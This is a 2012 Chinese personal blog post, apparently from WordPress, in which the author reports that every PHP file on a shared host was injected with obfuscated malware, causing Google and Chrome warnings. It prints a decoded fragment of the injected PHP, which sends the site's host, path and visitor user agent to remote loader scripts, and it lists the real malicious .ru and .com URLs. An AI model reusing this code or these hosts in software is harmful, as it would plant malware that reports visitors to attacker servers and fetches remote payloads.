```yaml
---
id: 1848
title: 博客被注入恶意代码
date: 2012-07-03T16:48:11+00:00
author: tanglei
layout: post
guid: http://www.tanglei.name/?p=1848
permalink: malware-code-injection
duoshuo_thread_id:
  - 1351844048792453409
enable_highlight:
  - '<link rel="stylesheet" href="../wp-content/blogresources/highlightconfig/highlight.default.min.css"><script src="../wp-content/blogresources/highlightconfig/jquery-2.1.4.min.js"></script><script src="../wp-content/blogresources/highlightconfig/enable_highlight.js"></script>'
categories:
  - 我做站长
  - 经验技巧
tags:
  - 入侵
  - 恶意代码
  - 旁注
  - 网络安全
---
```

这两天准备更新下本博客的评论，加上诸如评论啦、多说等插件，发现某些php文件貌似不太对劲。今天又收到了google的名为“Malware notification regarding tanglei.name”的邮件，再进博客后台，发现博客所有的php文件被感染，诸如下图一些加密代码。用chrome访问博客时也被拦截，提示“警告：此页面包含危险内容！**[www.tanglei.name](http://www.tanglei.name/)** 包含恶意软件。如果您访问此网站，您的计算机可能会中毒。……”

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入木马.jpg"><img class="aligncenter  wp-image-1849" title="植入木马" src="/wp-content/uploads/2012/07/植入木马.jpg" alt="网页包含恶意软件" width="640" height="331" data-pinit="registered" /></a>
</p>

再SSH进入主机，发现该主机下其他域名的所有的php文件都植入了这些代码。如图所示，我的i3zhai.com也中招了.

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入恶意代码.jpg"><img class="aligncenter  wp-image-1850" title="植入恶意代码" src="/wp-content/uploads/2012/07/植入恶意代码.jpg" alt="网页包含恶意软件" width="640" height="341" data-pinit="registered" /></a>
</p>

base64解码以上植入的恶意代码，发现以上恶意代码跟目标主机相关联的关键的几行代码:

<pre>&lt;cc class="php">
$_SERVER['s_p1']=$mz;  $_SERVER['s_b1']=$bot;  $_SERVER['s_t1']=1200;  $_SERVER['s_d1']=base64_decode('aHR0cDovL2VuczEyMnp6emRkYXp6LmNvbS8=');  $d='?d='.urlencode($_SERVER["HTTP_HOST"])."&#038;p=".urlencode($_SERVER["PHP_SELF"])."&#038;a=".urlencode($_SERVER["HTTP_USER_AGENT"]); 
$_SERVER['s_a1']=base64_decode('aHR0cDovL3BtZ2N6a2luZml1bS5ydS9nX2xvYWQucGhw').$d;  $_SERVER['s_a2']=base64_decode('aHR0cDovL2luZmlwbWcucnUvZ19sb2FkLnBocA==').$d;  
$_SERVER['s_script']="pmg.php?d=x";  
&lt;/cc></pre>

关键url还得base64解码，得到的url如下：

<pre>&lt;cc class="php">
http://pmgczkinfium.ru/g_load.php
http://infipmg.ru/g_load.php
http://ens122zzzddazz.com/ 
&lt;/cc></pre>

看来就是跟这些相关了。查了这几个url，发现也有其他站点中招了。
  
目前我能想到的解决方案就是写个脚本，在后台跑一下，把所有php中这些代码都删除掉。不过这个有风险啊，一是不知道后台允许我执行这样的脚本么，而是操作这些代码要是有个什么差错的话就惨了。目前联系了主机提供商，看看他们有什么解决方案。
  
暂且就不管了吧。如果你现在能看到这篇文章就是忽略浏览器的拦截了。呵呵。待解决……
